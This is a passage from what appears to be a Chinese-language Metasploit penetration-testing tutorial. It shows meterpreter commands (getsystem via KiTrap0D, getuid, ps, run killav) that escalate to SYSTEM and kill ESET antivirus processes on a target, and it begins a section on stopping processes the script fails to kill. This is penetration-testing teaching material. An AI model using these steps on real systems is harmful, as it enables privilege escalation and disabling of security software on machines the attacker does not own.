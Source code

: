 1.  我们可以看到`getsystem`成功地使用`技术 4`，也就是 KiTrap0D 漏洞，提升了我们在渗透系统上的特权。我们可以再次使用`getuid`命令来检查我们新提升的 ID。

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM 
```

1.  现在我们拥有了主管理员权限。下一步将是运行`ps`命令，列出系统上所有正在运行的进程。我们将需要查看控制目标机器上运行的杀毒软件的那些进程（输出已经被缩短以适应）。

```
PID Name User Path
--- ---- ---- ----
1060 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1096 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\system32\.
1140 stacsv.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1152 dsmonitor.exe DARKLORD-PC\DARKLORD C:\Program Files\Uni.
1744 egui.exe DARKLORD-PC\DARKLORD C:\Program Files\ESET\ESET NOD32 Antivirus\egui.exe
1832 eset.exe NT AUTHORITY\SYSTEM C:\Program Files\ESET\ESET NOD32 Antivirus\eset.exe 
```

1.  从`Name`和`Path`列中，我们可以很容易地识别出属于杀毒软件实例的进程。在我们的情况下，有两个进程负责目标系统上的杀毒保护。它们是`egui.exe`和`eset.exe`。让我们看看如何使用 Metasploit 来终止这些进程。

## 工作原理

Meterpreter 提供了一个非常有用的脚本，名为`killav.rb`，可以用来终止目标系统上运行的杀毒软件进程，从而禁用它。让我们在运行 ESET NOD32 杀毒软件的 Windows 7 目标上尝试这个脚本。

```
meterpreter > run killav
[*] Killing Antivirus services on the target... 
```

`run`命令用于在 meterpreter 中执行 Ruby 脚本。一旦脚本执行完毕，我们可以再次检查目标上正在运行的进程，以确保所有杀毒软件进程都已被终止。如果没有杀毒软件进程在运行，那么意味着杀毒软件已经在目标机器上被暂时禁用，我们现在可以继续进行渗透测试过程。

但是如果进程仍在运行怎么办？让我们在下一个步骤中找到解决方案。

# 深入了解 killav.rb 脚本

继续我们之前的步骤，我们专注于如何使用`killav.rb`脚本在目标机器上终止运行的杀毒软件进程。但是，如果进程仍在运行，或者即使使用脚本后它们仍未被终止，会怎么样呢？这可能有两个原因。要么`killav.rb`没有在其终止列表中包括这些进程，要么杀毒软件进程正在作为服务运行。在这个步骤中，我们将尝试克服这些问题。所以让我们快速进入我们的步骤。

## 准备工作

我们将从上一个步骤结束的地方开始相同的 meterpreter 会话。我们已经使用了`killav.rb`脚本一次，但是杀毒软件进程仍在运行。我们可以使用`ps`命令查看正在运行的进程。

```
PID Name User Path
--- ---- ---- ----
1060 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1096 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\system32\.
1140 stacsv.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1152 dsmonitor.exe DARKLORD-PC\DARKLORD C:\Program Files\Uni.
1744 egui.exe DARKLORD-PC\DARKLORD C:\Program Files\ESET\ESET NOD32 Antivirus\egui.exe
1832 eset.ece NT AUTHORITY\SYSTEM C:\Program Files\ESET\ESET NOD32 Antivirus\eset.exe 
```
